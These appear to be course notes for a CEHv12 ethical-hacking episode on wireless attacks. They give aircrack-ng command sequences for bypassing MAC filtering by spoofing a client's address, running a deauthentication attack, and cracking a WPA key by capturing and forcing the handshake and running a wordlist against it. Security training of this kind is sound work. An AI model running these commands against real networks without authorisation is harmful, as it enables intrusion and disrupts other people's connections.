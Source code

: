 - Filename: eccouncil-ceh31250-v12-16-4-1-wireless-hacking.md
- Show Name: CEHv12 (312-50)
- Topic Name: Wireless Network Hacking - Hacking Wireless Networks
- Episode Name: Wireless Hacking
================================================================================


Wireless Hacking
--------------------------------------------------------------------------------

Objectives:
--------------------------------------------------------------------------------

--------------------------------------------------------------------------------


+ MAC Spoofing
  - Bypass MAC Filtering
    1. `sudo airmon-ng start wlan0`
      - Record the BSSID if the target device
    2. `sudo airodump-ng -c 6 --bssid <Target_MAC> -w psk wlan0mon`
      - This will show connected clients MAC addresses
    3. `sudo airmon-ng stop wlan0mon`
    4. `sudo ifconfig wlan0 down`
    5. `sudo ifconfig wlan0 hw ether <Client_MAC>`
    6. `sudo ifconfig wlan0 up`
    7. Connect to MAC filtered wireless network

+ De-authentication Attack
  - Follow the same steps above to discover clients for deauth
    + Then...
      - `sudo aireplay-ng --deauth 25 -h <Client_MAC> -b <Target_MAC> wlan0`

+ WPA Cracking
  - Put wireless card into monitoring mode
      + `airmon-ng -start wlan0`
    - Find BSSID of target AP
      + `airodump-ng wlan0mon`
      + Record BSSID and channel of Target AP
    - Monitor target AP
      + `airodump-ng -c 6 --bssid 00:1C:DF:89:84:9F -w ceh.cap wlan0mon`
        - `-c` = channel number
        - `-w` = write out file location
    - Wait for 4-way handshake or force with `aireplay-ng`
      + Force 4-way handshake
        - `aireplay-ng -0 2 -a 00:1C:DF:89:84:9F -c <clientMAC> wlan0mon`
          + Check the `airodump-ng` capture for 4-way handshake
    - Time to crack the WPA key
      + `aircrack-ng -a2 -b 00:1C:DF:89:84:9F -w ~/Documents/rockyou.txt
        *.cap`
        - Record the cracked PSK
    - Return wireless device to normal operation
      + `airmon-ng stop wlan0mon`
      + `service networkmanager start`
    - Attempt to connect to Target AP with cracked PSK
